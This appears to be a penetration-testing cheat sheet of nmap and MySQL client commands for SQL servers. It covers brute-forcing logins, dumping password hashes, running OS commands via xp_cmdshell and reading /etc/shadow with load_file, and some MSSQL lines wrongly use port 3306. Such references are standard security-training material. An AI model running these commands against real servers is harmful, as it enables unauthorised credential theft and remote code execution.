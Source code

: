 **SQL**



**Nmap**

```
sudo nmap -p 3306 -sV -O <TARGET_IP>

nmap -p 3306 --script=mysql-empty-password <TARGET_IP>
nmap -p 3306 --script=mysql-info <TARGET_IP>
nmap -p 3306 --script=mysql-users --script-args="mysqluser='<USER>',mysqlpass='<PW>'" <TARGET_IP>
nmap -p 3306 --script=mysql-databases --script-args="mysqluser='<USER>',mysqlpass='<PW>'" <TARGET_IP>
nmap -p 3306 --script=mysql-variables --script-args="mysqluser='<USER>',mysqlpass='<PW>'" <TARGET_IP>

nmap -p 3306 --script=mysql-audit --script-args="mysql-audit.username='<USER>',mysql-audit.password='<PW>',mysql-audit.filename=''" <TARGET_IP>

nmap -p 3306 --script=mysql-dump-hashes --script-args="username='<USER>',password='<PW>'" <TARGET_IP>

nmap -p 3306 --script=mysql-query --script-args="query='select count(*) from <DB_NAME>.<TABLE_NAME>;',username='<USER>',password='<PW>'" <TARGET_IP>

nmap -sV -p 3306 --script mysql-audit,mysql-databases,mysql-dump-hashes,mysql-empty-password,mysql-enum,mysql-info,mysql-query,mysql-users,mysql-variables,mysql-vuln-cve2012-2122 10.10.10.13

## Microsoft SQL
nmap -sV -sC -p 1433 <TARGET_IP>

nmap -p 1433 --script ms-sql-info <TARGET_IP>
nmap -p 1433 --script ms-sql-ntlm-info --script-args mssql.instance-port=1433 <TARGET_IP>
nmap -p 1433 --script ms-sql-empty-password <TARGET_IP>

nmap -p 3306 --script ms-sql-brute --script-args userdb=/root/Desktop/wordlist/common_users.txt,passdb=/root/Desktop/wordlist/100-common-passwords.txt <TARGET_IP>

nmap -p 3306 --script ms-sql-query --script-args mssql.username=<USER>,mssql.password=<PW>,ms-sql-query.query="SELECT * FROM master..syslogins" <TARGET_IP> -oN output.txt

nmap -p 3306 --script ms-sql-dump-hashes --script-args mssql.username=<USER>,mssql.password=<PW> <TARGET_IP>

nmap -p 3306 --script ms-sql-xp-cmdshell --script-args mssql.username=<USER>,mssql.password=<PW>,ms-sql-xp-cmdshell.cmd="ipconfig" <TARGET_IP>

nmap -p 3306 --script ms-sql-xp-cmdshell --script-args mssql.username=<USER>,mssql.password=<PW>,ms-sql-xp-cmdshell.cmd="type c:\flag.txt" <TARGET_IP>
```

```
# MYSQL
mysql -h <TARGET_IP> -u <USER>
mysql -h <TARGET_IP> -u root

# Mysql client
help
show databases;
use <DB_NAME>;
select count(*) from <TABLE_NAME>;
select load_file("/etc/shadow");
```
